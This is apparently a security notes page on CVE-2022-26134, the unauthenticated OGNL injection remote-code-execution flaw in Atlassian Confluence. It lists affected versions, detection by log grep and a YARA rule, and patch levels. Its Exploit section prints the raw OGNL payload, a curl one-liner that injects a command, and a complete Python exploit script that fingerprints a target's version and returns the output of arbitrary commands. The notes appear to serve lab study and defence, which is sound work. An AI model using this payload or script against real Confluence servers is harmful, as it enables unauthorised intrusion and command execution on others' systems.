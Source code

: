 
On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's [Confluence Server and Data Center editions](https://www.atlassian.com/software/confluence). Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members. The following versions of Confluence are vulnerable to this CVE:  

-   1.3.0 -> 7.4.17
-   7.13.0 -> 7.13.7
-   7.14.0 -> 7.14.3 
-   7.15.0 -> 7.15.2 
-   7.16.0 -> 7.16.4
-   7.17.0 -> 7.17.4
-   7.18.0 -> 7.18.1

Vulnerability is within the [OGNL](https://en.wikipedia.org/wiki/OGNL) (Object-Graph Navigation Language) expression language for Java; OGNL is used in Java-based web applications such as Confluence. It allows for the 
execution of methods of Java classes..

## Exploit

URL-encoding and 
```java
${@java.lang.Runtime@getRuntime().exec("<cmd>")}/
```

```bash
# Remember to URL encode the command
# The URL must end with a trailing / not $SF
CMD=
curl -v "http://$host:$port/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22$CMD%22%29%7D/"
```

[Packetstorm Python3 Exploit](https://packetstormsecurity.com/files/167430/Confluence-OGNL-Injection-Remote-Code-Execution.html)

THM version of the Naqwada version that is 404
```python
# -*- coding: utf-8 -*-

# Author:   Naqwada (RuptureFarm 1029) <naqwada@pm.me>
# License:  MIT License (http://www.opensource.org/licenses/mit-license.php)
# Docs:     https://github.com/Naqwa/CVE-2022-26134
# Website:  http://samy.link/
# Linkedin: https://www.linkedin.com/in/samy-younsi/
# Note:     FOR EDUCATIONAL PURPOSE ONLY.

from bs4 import BeautifulSoup
import requests
import urllib3
import re
import sys
urllib3.disable_warnings()

def banner():
  CVE_2022_26134Logo = """
   _______    ________                                
  / ____/ |  / / ____/                                
 / /    | | / / __/                                   
/ /___  | |/ / /___                                   
\____/  |___/_____/___       ___   _____________ __ __
  |__ \ / __ \__ \|__ \     |__ \ / ___<  /__  // // /
  __/ // / / /_/ /__/ /_______/ // __ \/ / /_ </ // /_
 / __// /_/ / __// __/_____/ __// /_/ / /___/ /__  __/
/____/\____/____/____/    /____/\____/_//____/  /_/   
                                                      
                  \033[1;91mCVE-2022-26134 - OGNL injection vulnerability\033[1;m                  
Author: \033[1;92mNaqwada\033[1;m                         
RuptureFarm 1029      
                FOR EDUCATIONAL PURPOSE ONLY.   
  """
  return print('\033[1;94m{}\033[1;m'.format(CVE_2022_26134Logo))


def check_target_version(host):
  try:
    response = requests.get("{}/login.action".format(host), verify=False, timeout=8)
    if response.status_code == 200:
      filter_version = re.findall("<span id='footer-build-information'>.*</span>", response.text)
      
      if len(filter_version) >= 1:
        version = filter_version[0].split("'>")[1].split('</')[0]
        return version
      else:
        return False
    else:
      return host
  except:
    return False


def send_payload(host, command):   
    payload = "%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D".format(command)
    response = requests.get("{}/{}/".format(host, payload), verify=False, allow_redirects=False)
    
    try:
      if response.status_code == 302:
          return response.headers["X-Cmd-Response"]
      else:
          return "This target does not seem to be vulnerable."
    except:
      return "This target does not seem to be vulnerable."


def main():
  banner()
  if len(sys.argv) < 3:
    print("\033[1;94mHow to use:\033[1;m")
    print("python3 {} https://target.com cmd".format(sys.argv[0]))
    print("ex: python3 {} https://target.com id".format(sys.argv[0]))
    print("ex: python3 {} https://target.com 'ps aux'".format(sys.argv[0]))
    return
  
  target = sys.argv[1]
  cmd = sys.argv[2]
  version = check_target_version(target)

  if version:
    print("Confluence target version: \033[1;94m{}\033[1;m".format(version))
  else:
    print("Can't find the used version for this target. Is the target offline?")
    return
  
  exec_payload = send_payload(target, cmd) 
  print(exec_payload)

if __name__ == "__main__":
   main()
```


## Detection

Confluence is an Apache Tomcat server which has logging located in `/opt/atlassian/confluence/logs` - search with grep: `grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22"`

Or use the [[YARA]] [Rule for the CVE](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar)


## Mitigation 

[Atlassian advisory](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) 
Patch to nearest:
-   7.4.17
-   7.13.7
-   7.14.3
-   7.15.2
-   7.16.4
-   7.17.4
-   7.18.1

## References

[THM Atlassian Room](https://tryhackme.com/room/cve202226134)
[Wikipedia OGNL](https://en.wikipedia.org/wiki/OGNL)
[Atlassian advisory](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) 
[Rule for the CVE](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar)
[NIST National Vulnerability Database Entry (CVE-2022-26134)](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)
[Hunting for Confluence RCE - CVE-2022–26134](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
[Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)
[What is OGNL Injection?](https://www.contrastsecurity.com/glossary/ognl-injection-ognl)
[Citrix: Guidance for reducing unauthenticated OGNL injection RCE](https://www.citrix.com/blogs/2022/06/09/reducing-unauthenticated-ognl-injection-security-vulnerability-risk-cve-2022-26134/)
[Exploring OGNL Injection in Apache Struts](https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts)
[Packetstorm Python3 Exploit](https://packetstormsecurity.com/files/167430/Confluence-OGNL-Injection-Remote-Code-Execution.html)